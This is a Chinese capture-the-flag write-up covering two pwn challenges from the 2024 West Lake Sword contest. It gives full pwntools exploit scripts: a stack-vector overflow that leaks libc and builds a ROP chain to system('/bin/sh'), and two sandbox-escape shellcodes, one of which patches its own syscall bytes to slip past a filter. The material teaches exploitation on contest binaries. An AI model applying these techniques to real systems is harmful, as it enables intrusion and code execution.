









# 24西湖论剑pwn篇-先知社区

> **来源**: https://xz.aliyun.com/news/16586  
> **文章ID**: 16586

---

# [TOC]

# Vpwn

C++pwn，本地执行程序时发现push数组超过六个就会带出来后面的内存

.png)

ida看源码，发现这里的允许的最大数组数量的变量a2在栈上，并且允许覆盖，那么我们可以把它覆盖成一个很大的数，这样泄露栈地址和往栈上写地址都不成问题了

.png)

往栈上写地址时，动调发现数组是32位4个字节写进去的，这样可以找到libc\_start\_mian在栈上的数组偏移为19 和 18，然后就可以泄露libc基址

.png)

.png)

​

然后就可以接着往栈上写rop链了，写rop链的时候也是四个字节四个字节往栈上写的，我们可以用chatgpt写个函数，方便写rop

.png)

 .png)

Exp：

```
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
libc=ELF('./libc.so.6')

def dbg():
    gdb.attach(p,'b *$rebase(0x146b)')
    pause()
#p = remote('139.155.126.78',16567)
p = process('./Vpwn')

def choice(cho):
    p.sendlineafter(b'choice: ',str(cho))

def edit(idx,Content=b'1'):
    choice(1)
    p.recvuntil(b'edit')
    p.sendline(bytes(str(idx),'utf-8'))
    p.recvuntil(b'value')
    p.sendline(bytes(str(Content),'utf-8'))

def push():
    choice(2)
    p.recvuntil('push: ')
    p.sendline(b'999')
    
def show():
    choice(4)
    
def exit():
    choice(5) 
    
def qu(value, part):  
    if part == 0:  
        # Extract lower 32 bits  
        extracted = value & 0xFFFFFFFF  
    else:  
        # Extract upper 32 bits  
        extracted = (value >> 32) & 0xFFFFFFFF  
    # Convert to signed integer if necessary  
    if extracted > 0x7FFFFFFF:  
        extracted -= 2**32  
    return extracted  


push()
push()
push()
push()
push()
push()
push()
    
show()
p.recvuntil(b'StackVector contents: ')
vector=p.recvuntil(b'
').split(b' ')
libc_start_main=(int(vector[19])<<32)+(int(vector[18])&0xffffffff)  
libc_base =libc_start_main - 0x29d90
success('libc_base:' + hex(libc_base))

rdi=libc_base + 0x000000000002a3e5
ret = libc_base + 0x0000000000029139
system_addr=libc_base + libc.symbols['system']
binsh_addr=libc_base + next(libc.search(b'/bin/sh'))

edit(18,qu(ret,0)) 
edit(20,qu(rdi,0))
edit(21,qu(rdi,1))
edit(22,qu(binsh_addr,0))
edit(23,qu(binsh_addr,1))
edit(24,qu(system_addr,0))
edit(25,qu(system_addr,1))

exit()

p.interactive()

```

# Heaven's door

沙箱shellcode题

.png)

.png)

count\_syscall\_instructions函数会对写入的shellcode进行检查，出现大于两次连续的050f（syscall的机器码）就会退出



来看看禁用了哪些系统调用，可操作的空间还是很大的，只是禁用了read

.png)

## 方法一

直接用openat + sendfile就行，这样就只用两次syscall就能打通了，这种方法在其他限制条件下也经常使用。

.png)

exp：

```
from pwn import *
context(os='linux',arch='amd64',log_level='debug')

#p = process("./pwn")
p = remote("139.155.126.78",15038)
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
def dbg():
    gdb.attach(p)
    pause()

#dbg()
sc = '''    
    mov rax, 0x67616c662f2e
    push rax
    xor rdi, rdi
    sub rdi, 100
    mov rsi, rsp
    xor edx, edx
    xor r10, r10
    push SYS_openat
    pop rax
    syscall

    mov rdi, 1
    mov rsi, 3
    push 0
    mov rdx, rsp
    mov r10, 0x100
    push SYS_sendfile
    pop rax
    syscall
'''
payload1 = asm(sc)
p.recvuntil(b'Kaidan')
p.sendline(payload1)

p.interactive()
```

## 方法二

open + mmap + write，前两次open和mmap正常使用syscall，第三次write的时候，用\x90对齐机器码后，在syscall的位置写入高位0x05，用汇编命令在rip寄存器指向的低位补0x0f即可正常执行syscall（0x05 0x0f）。  
exp：

```
from pwn import *
context(os='linux',arch='amd64',log_level='debug')

#p = process("./pwn")
p = remote("139.155.126.78",15038)
elf = ELF("./pwn")
libc = ELF("./libc.so.6")

shellcode = asm(shellcraft.open('flag', 0, 0))
shellcode += asm(shellcraft.mmap(0x20000, 0x1000, 1, 1, 'rax', 0))
shellcode += asm('''
mov rax,1
mov rdi,1
mov rsi,0x20000
mov rdx,0x50
mov byte ptr [rip],0x0f
''') + b'\x90\x05'

p.send(shellcode)
p.interactive()
```
